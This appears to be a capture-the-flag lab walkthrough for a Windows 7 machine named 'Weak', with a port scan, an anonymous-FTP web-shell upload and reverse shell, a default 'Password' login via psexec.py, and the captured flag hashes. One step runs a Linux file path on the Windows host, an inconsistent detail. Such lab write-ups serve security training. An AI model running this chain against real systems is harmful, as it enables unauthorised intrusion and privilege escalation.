


# Weak

**IP Address:** 172.31.1.11

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 10243/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 21/tcp | open | ftp | Microsoft ftpd  |
| 2869/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 445/tcp | open | microsoft-ds | Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds  |
| 49152/tcp | open | msrpc | Microsoft Windows RPC  |
| 49153/tcp | open | msrpc | Microsoft Windows RPC  |
| 49154/tcp | open | msrpc | Microsoft Windows RPC  |
| 49155/tcp | open | msrpc | Microsoft Windows RPC  |
| 49161/tcp | open | msrpc | Microsoft Windows RPC  |
| 49162/tcp | open | msrpc | Microsoft Windows RPC  |
| 5357/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 80/tcp | open | http | Microsoft IIS httpd 7.5 |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 138/udp | open|filtered | netbios-dgm |   |
| 4500/udp | open|filtered | nat-t-ike |   |
| 500/udp | open|filtered | isakmp |   |

## Exploitation
### Exploit Details (Default Credentials)
* **Name** - Default Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The FTP server allows us to connect with anonymous authentication and write files to the web root. 

1. Connect to the ftp and upload a reverse shell. 

Commands
```
ftp -p $ip
anonymous
anonymous
put shell.aspx
quit
curl http://$ip/shell.aspx
```




2. Catch the reverse shell. 

Commands
```
whoami
cat /var/www/local.txt
```



3. We find a README.txt file in a development directory indicating that a users password may be set to "Password". 

Commands
```
type README.txt
```


4. We can then login as 'Web Admin' and find we have system privileges. 

Commands
```
psexec.py 'Web Admin'@$ip
Password
whoami
type "C:\Users\Web Admin\Desktop\access.txt"
type C:\Users\Administrator\Desktop\system.txt

```


## Loot
```
access.txt
5daa210372a01577b20550679ad1b0d9
system.txt
c3de9cb10bf9d170e3f559a555f880eb
```